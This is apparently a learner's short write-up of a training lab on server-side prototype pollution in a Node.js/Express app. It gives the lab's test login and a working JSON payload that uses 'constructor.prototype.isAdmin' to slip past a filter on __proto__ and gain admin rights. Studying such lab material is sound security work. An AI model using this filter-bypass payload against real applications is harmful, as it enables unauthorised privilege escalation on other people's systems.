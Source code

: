 # Practitioner Lab 155 : Bypassing flawed input filters for server-side prototype pollution

---

This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget property that you can use to escalate your privileges.
3. Access the admin panel and delete the user `carlos`.

You can log in to your own account with the following credentials: `wiener:peter`

```
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"IChEZQtNTVWEUMQDEAKYo2Pd5dKhptL8",
    "constructor": {
      "prototype": {
        "isAdmin": true
 }
}
 } 
```

I attempted to use the __ proto __ but it showed no output as a result I ended up doing the payload above which worked.
